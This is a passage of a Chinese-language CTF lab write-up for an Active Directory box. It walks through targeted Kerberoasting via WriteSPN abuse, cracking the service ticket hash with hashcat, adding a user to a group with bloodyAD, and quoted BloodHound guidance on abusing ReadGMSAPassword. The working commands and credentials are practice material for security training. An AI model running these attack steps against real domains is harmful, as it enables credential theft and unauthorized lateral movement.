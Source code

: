 如何利用,主要是进行kerberoasting攻击。kerberoasting攻击简单来说就是向TGS请求目标服务的ST，然后离线破解加密ST的服务账户密码。

我们通过WriteSPN权限为Alfred用户的注册一个虚构的SPN，这个SPN只要在域内是唯一的，DC就会接受它。然后DC就会认为这个虚假的SPN对应的服务由Alfred账户运行，任何用户都可以为这个服务请求kerberos票据，KDC会使用Alfred账户的NT哈希来加密这张返回的票据，我们拿到后离线破解即可。

这里就可以联想到U2U。U2U正是为了解决这种不安全的**返回使用其他账户哈希加密的票据**的操作，它使用了服务用户的会话密钥代替长期的NT哈希。

攻击利用，可以set-spn或者bloodAD等写入SPN，然后rubeus执行kerberoasting攻击。

这里直接使用工具：https://github.com/ShutdownRepo/targetedKerberoast

注意kerberos认证对系统时间同步有要求，我们先停止本机时间同步服务：

```
systemctl stop systemd-timesyncd
```

然后使用ntpdate手动和靶机时间同步：

```
ntpdate 10.10.11.72
```

然后使用脚本发起攻击：

```
python3 targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'
```

将拿到的hash保存，使用hashcat破解：

```
└─# hashcat hash -m 13100 -a 0 rockyou.txt
```

结果是basketball

可以使用`nxc smb`验证一下：
```
SMB         10.10.11.72     445    DC01             [+] tombwatcher.htb\Alfred:basketball
```

说明密码正确！

# 二：持续横移

接下来就是持续横向移动，Alfred账户对infrastructure组有addself权限，我们使用bloodAD添加用户到组内：

```
└─# bloodyAD -u Alfred -p 'basketball' --host 10.10.11.72 add groupMember INFRASTRUCTURE Alfred
[+] Alfred added to INFRASTRUCTURE
```

infrastructure组又对计算机ANSIBLE_DEV$有ReadGMSAPassword权限

在bloodhound中可以看到SpecterOPS对这个权限的利用指导(上面的targetedKerberoast.py也为你给了链接)：

> There are several ways to abuse the ability to read the GMSA password. The most straight forward abuse is possible when the GMSA is currently logged on to a computer, which is the intended behavior for a GMSA. If the GMSA is logged on to the computer account which is granted the ability to retrieve the GMSA's password, simply steal the token from the process running as the GMSA, or inject into that process.
>
> If the GMSA is not logged onto the computer, you may create a scheduled task or service set to run as the GMSA. The computer account will start the sheduled task or service as the GMSA, and then you may abuse the GMSA logon in the same fashion you would a standard user running processes on the machine (see the "HasSession" help modal for more details).
>
> Finally, it is possible to remotely retrieve the password for the GMSA and convert that password to its equivalent NT hash.gMSADumper.py can be used for that purpose.
>
> gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
>